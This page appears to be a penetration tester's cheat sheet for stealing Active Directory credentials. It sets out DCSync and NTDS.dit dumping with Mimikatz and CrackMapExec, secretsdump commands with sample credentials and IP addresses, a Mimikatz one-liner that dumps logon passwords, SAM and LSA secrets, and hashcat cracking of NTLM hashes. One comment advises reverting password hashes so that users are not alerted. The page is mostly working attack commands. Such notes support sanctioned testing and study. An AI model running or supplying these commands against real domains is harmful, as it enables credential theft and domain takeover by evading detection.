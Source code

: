 ### NTDS.dit

```bash
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync
https://www.puckiestyle.nl/extracting-password-hashes-from-the-ntds-dit-file/
https://pentestlab.blog/tag/ntds-dit/

# ntds.dit - Domain Controller Synchronization (DCSync) 
# Steal a copy of the NTDS.dit database file (copy of all AD accounts)
lsadump::dcsync /user:Administrator

# AS SOON AS WE GET THE DC, DUMP NTDS
cme smb $DC_IP -u Administrator -p 'P@$$w0rd!' -M ntdsutil
cme smb $DC_IP -u Administrator -p 'P@$$w0rd!' --ntds vss

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### secretsdump / Mimikatz

{% hint style="info" %}
In case of Powershell shell or if it shows mimkatz lots of times use one-liners such as

```powershell
mimikatz.exe "token::elevate" "privilege::debug" "sekurlsa::logonpasswords" "vault::list" "lsadump::sam" "lsadump::secrets" "exit"
```

or use Invoke-Mimikatz
{% endhint %}

{% code overflow="wrap" %}
```bash
secretsdump.py -user-status -history -pwd-last-set
# For 3 reasons:
- It shows password history so in case we change a password, we could revert it to the previous hash and do not alert the users of that change
- We can use old passwords to build hashcat rules and crack other passwords
- We see if the account is enabled/disabled so we will know immediately if we can leverage a hash or not

secretsdump.py $DOMAIN/$USER:$PASS@DOMAIN
# Also -history parameter is good to catch old/previous passwords
# EXAMPLE
cme smb 10.10.10.0 -u 'Administrator' -p 'MyPass123@' (-d domain) --sam
python secretsdump.py spookysec.local/backup:backup2517860@spookysec.local
secretsdump.py -just-dc -no-pass DC01$:@10.10.183.129
# If we get a hash like this:
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
# Previous hash --> NTLM hash e4876a80a723612986d7609aa5ebc12b
# The second hash is the NTLM hash. We can use Hashcat to crack it:
hashcat -m 1000 -a 0 hash rockyou.txt

https://salarbakhtiari.medium.com/extracting-credentials-from-memory-with-lsa-protection-proctected-process-light-enabled-2064af4258bd

# MIMIKATZ
https://github.com/gentilkiwi/mimikatz
# Mimikatz alternative link if there is any problem with the version
https://gitlab.com/kalilinux/packages/mimikatz/-/commit/3100a45278237cb7f87ef28f7edbfef4135c615c
# Run cmd.exe as administrator
privilege::debug # Get debug privilege *run as administrator)
token::elevate # elevate our integrity to SYSTEM level
token::list
lsadump::sam # dump all of the SAM local password hashes
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami 